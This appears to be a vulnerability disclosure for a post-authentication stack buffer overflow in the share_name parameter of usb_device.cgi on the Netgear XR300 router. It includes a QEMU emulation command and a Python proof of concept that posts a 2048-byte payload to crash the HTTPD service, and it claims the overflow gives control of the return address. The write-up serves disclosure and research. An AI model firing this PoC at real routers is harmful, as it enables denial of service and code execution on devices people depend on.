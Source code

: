 ## buffer overflow in share_neme of usb_device.cgi



**Affected Product**: Netgear XR300 Router

**Affected Firmware Versions**:  XR300-V1.0.3.38_10.3.30 

**Official Firmware Resources** :(https://support.netgear.cn/doucument/detail.asp?id=2466)

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: 

------

### **Vulnerability Details**

#### **Description**

A stack-based buffer overflow exists in the HTTPD service through the `usb_device.cgi` endpoint. The vulnerability occurs when processing POST requests containing the `share_name` parameter. Specifically:

1. The `sub_B7350` function handles requests to `usb_device.cgi`.
2. User-controlled `share_name` input is copied to buffer `v50` using `strcpy` without proper bounds checking.
3. The `v50` buffer is only **32 bytes** in size.
4. The service permits `share_name` values up to **0x800 bytes (2048 characters)**, creating an overflow condition 

This vulnerability requires authentication to exploit, making it a post-authentication vulnerability.

![image-20250524125016776](../res/image-20250524125016776-17480622189283-17480625821895.png)

![image-20250524125054841](../res/image-20250524125054841-17480622559834-17480625956616.png)



#### **QEMU Emulation Setup**

`sudo chroot . ./qemu-arm-static -E LD_PRELOAD="/nvram.so /lib/libdl.so.0"  -g 1234  ./usr/sbin/httpd`



![image-20250524123945917](../res/image-20250524123945917-17480615941411.png)





#### 

------

### **Proof of Concept (PoC)**



```
import requests
from requests.auth import HTTPBasicAuth

router_ip = "192.168.107.135"
url = f"http://{router_ip}/usb_device.cgi"
username = "1"
password = "1"
payload = 'A' * 2048

data = {
    "mode": "add_share",
    "share_name": payload
}

headers = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded",
}

try:
    response = requests.post(
        url,
        data=data,
        headers=headers,
        auth=HTTPBasicAuth(username, password),

    )

    print(f"HTTP Status: {response.status_code}")
    print("Response Content:")
    print(response.text)

    if "Internal Server Error" in response.text:
        print("Server Error Detected")
    elif response.status_code == 500:
        print("Internal Server Error (500)")
    elif response.status_code == 0:
        print("Connection Reset")

except requests.exceptions.ConnectionError:
    print("Connection Failed - Potential Service Crash")
except requests.exceptions.RequestException as e:
    print(f"Request Error: {str(e)}")
except Exception as e:
    print(f"Unexpected Error: {str(e)}")
```



### Exploitation Results


The PoC demonstrates successful overflow of the `v50` buffer on the stack. As shown in Figure,  the overflow overwrites the return address, granting control of the PC register. This enables arbitrary code execution by crafting a ROP chain or shellcode payload.

![image-20250524124832967](../res/image-20250524124832967-17480621144102.png)



![image-20250524125258636](../res/image-20250524125258636.png)